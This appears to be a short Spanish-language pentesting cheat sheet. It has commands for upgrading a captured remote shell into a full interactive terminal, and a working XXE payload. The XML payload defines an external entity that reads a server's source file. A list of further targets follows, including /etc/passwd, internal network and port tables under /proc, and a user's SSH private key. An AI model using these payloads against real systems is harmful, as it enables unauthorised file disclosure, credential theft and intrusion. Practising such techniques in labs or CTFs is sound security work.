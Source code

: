 # Diferentes codigos

## Tratamiento de la pseudo-consola
```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

## XXE
Procedemos a crear un archivo asi:
❯ **vi file.xml** 
	❮?xml version=”1.0” encoding=”ISO-8859-1”?❯
		❮!DOCTYPE foo \[
		❮!ELEMENT foo ANY❯
	❮!ENTITY xxe SYSTEM “file:////opt/blog/server.js”❯]❯
	❮post❯
		❮title❯This is a test❮/title❯
		❮description❯Mensaje de prueba❮/description❯
		❮markdown❯&xxe;❮/markdown❯
	❮/post❯

Comandos que podemos meter en SYSTEM: 
**\file:///proc/net/fib_trie** Que nos muestra las direcciones IP que se encuetran ahi en la maquina 
**\file:///proc/net/tcp** Que nos muestra los puerto abiertos pero de manera interna, miramos que vienen en fomato hexadecimal y podemos desconvertirlos en alguna pagina web.
**\file:////etc/passwd** Ver los usuarios de la maquina 
**\file:///home/admin/.ssh/id_rsa** Tratar de listar la id_rsa de la maquina

